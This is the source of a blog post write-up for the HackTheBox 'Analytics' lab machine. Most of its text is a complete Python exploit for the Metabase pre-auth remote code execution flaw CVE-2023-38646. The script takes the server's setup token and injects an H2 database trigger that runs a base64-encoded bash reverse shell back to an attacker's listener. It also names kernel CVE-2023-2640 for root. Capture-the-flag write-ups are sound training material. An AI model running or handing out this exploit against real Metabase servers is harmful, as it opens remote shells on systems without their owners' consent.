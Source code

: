 ```yaml
---
layout: post
title: "Analytics-Linux-Easy"
date:   2025-07-10 12:05:57 -0400
categories: writeups
thumb: /assets/images/logos/f86fcf4c1cfcc690b43f43e100f89718.webp
---
```


# Analytics

HackTheBox: Medium

<aside>
💡 Analytics is a linux machine where we can exploit some vulnerabilities(**RCE vulnerability**), and learn the importance of save sensitive information.

</aside>

## 1: Enumeration
<br/><br/>
- nmap scanning
<br/><br/>
![Untitled]({{ '/assets/images/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c_Untitled.png' | relative_url }})
<br/><br/>
Let’s look around http service
<br/><br/>
![Untitled]({{ '/assets/images/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c_Untitled_1.png' | relative_url }})
<br/><br/>
A login interface change to this subdomain
<br/><br/>
Metabase has a vulnerability (CVE-2023-38646)
<br/><br/>
![Untitled]({{ '/assets/images/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c_Untitled_2.png' | relative_url }})
<br/><br/>
## 2: User flag
<br/><br/>
Use this POC
<br/><br/>

```python
import requests
import argparse
import base64
import json
from requests.packages.urllib3.exceptions import InsecureRequestWarning
from urllib.parse import urlparse

requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

def get_setup_token_and_version(ip_address):
    endpoint = "/api/session/properties"
    url = f"{ip_address}{endpoint}"
    try:
        print(f"[DEBUG] Fetching setup token from {url}")
        response = requests.get(url, verify=False)
        if response.status_code == 200:
            data = response.json()
            setup_token = data.get("setup-token")
            metabase_version = data.get("version", {}).get("tag")

            if setup_token is None:
                print(f"[DEBUG] Setup token not found or is null for IP: {ip_address}\n")
            else:
                print(f"[DEBUG] Setup Token: {setup_token}")
                print(f"[DEBUG] Version: {metabase_version}")

            return setup_token
    except requests.exceptions.RequestException as e:
        print(f"[DEBUG] Exception occurred: {e}")
        print(f"[DEBUG] Failed to connect to {ip_address}.\n")

def post_setup_validate(ip_address, setup_token, listener_ip, listener_port):
    payload = base64.b64encode(f"bash -c 'bash -i >&/dev/tcp/{listener_ip}/{listener_port} 0>&1'".encode()).decode()

    print(f"[DEBUG] Payload = {payload}")

    endpoint = "/api/setup/validate"
    url = f"{ip_address}{endpoint}"
    headers = {'Content-Type': 'application/json'}
    data = {
        "token": setup_token,
        "details": {
            "is_on_demand": False,
            "is_full_sync": False,
            "is_sample": False,
            "cache_ttl": None,
            "refingerprint": False,
            "auto_run_queries": True,
            "schedules": {},
            "details": {
                "db": f"zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {{echo,{payload}}}|{{base64,-d}}|{{bash,-i}}')\n$$--=x",
                "advanced-options": False,
                "ssl": True
            },
            "name": "test",
            "engine": "h2"
        }
    }

    print(f"[DEBUG] Sending request to {url} with headers {headers} and data {json.dumps(data, indent=4)}")

    try:
        response = requests.post(url, headers=headers, json=data, verify=False)
        print(f"[DEBUG] Response received: {response.text}")
        if response.status_code == 200:
            print(f"[DEBUG] POST to {url} successful.\n")
        else:
            print(f"[DEBUG] POST to {url} failed with status code: {response.status_code}\n")
    except requests.exceptions.RequestException as e:
        print(f"[DEBUG] Exception occurred: {e}")
        print(f"[DEBUG] Failed to connect to {url}\n")

def preprocess_url(user_input):
    parsed_url = urlparse(user_input)
    protocol = f"{parsed_url.scheme}://" if parsed_url.scheme else "http://"
    netloc = parsed_url.netloc or parsed_url.path
    return protocol + netloc.rstrip('/')

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Check setup token')
    parser.add_argument('--rhost', type=str, help='Metabase server IP address (including http:// or https:// and port number if needed)')
    parser.add_argument('--lhost', type=str, help='Listener IP address')
    parser.add_argument('--lport', type=int, default=4444, help='Listener port (default is 4444)')
    args = parser.parse_args()

    print(f"[DEBUG] Original rhost: {args.rhost}")
    args.rhost = preprocess_url(args.rhost)
    print(f"[DEBUG] Preprocessed rhost: {args.rhost}")

    print(f"[DEBUG] Input Arguments - rhost: {args.rhost}, lhost: {args.lhost}, lport: {args.lport}")

    setup_token = get_setup_token_and_version(args.rhost)
    print(f"[DEBUG] Setup token: {setup_token}")
    if setup_token:
        post_setup_validate(args.rhost, setup_token, args.lhost, args.lport)
```

<br/><br/>
![Untitled]({{ '/assets/images/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c_Untitled_3.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c_Untitled_4.png' | relative_url }})
<br/><br/>
![Untitled]({{ '/assets/images/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c_Untitled_5.png' | relative_url }})
<br/><br/>
## 3: Priv esc
<br/><br/>
![Untitled]({{ '/assets/images/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c/af085d34-eb14-4082-ad9d-c42401a944e6-export-2938c4a6-fcb5-4b88-9b67-be33645a199c_Untitled_6.png' | relative_url }})
<br/><br/>
We see a kernel with an outdated version (CVE-2023-2640)
<br/><br/>
Just give it executable premises after downloaded it on tmp
<br/><br/>
We’ve got root flag
<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>


<link rel="stylesheet" href="{{ '/assets/css/imagesstyle.css' | relative_url }}">
